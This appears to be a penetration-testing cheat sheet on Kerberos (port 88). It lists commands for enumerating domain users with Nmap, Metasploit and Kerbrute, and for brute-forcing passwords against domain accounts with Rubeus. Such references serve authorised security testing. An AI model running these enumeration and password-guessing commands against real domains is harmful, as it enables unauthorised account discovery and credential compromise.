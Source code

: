 # Port 88 | Kerberos

### User Enumeration

#### Nmap

```bash
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=<Domain>,userdb=<Wordlist> <IP>
```

#### Metasploit

```
use auxiliary/gather/kerberos_enumusers
```

#### Kerbrute

**Download:** [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

```python
./kerbrute userenum <UserList> --dc <IP> --domain <Domain>
```

#### Rubeus

```python
# with a list of users
.\Rubeus.exe brute /users:<UserList> /passwords:<Wordlist> /domain:<Domain>

# Check all domain users again password list
.\Rubeus.exe brute /passwords:<Wordlist>
```
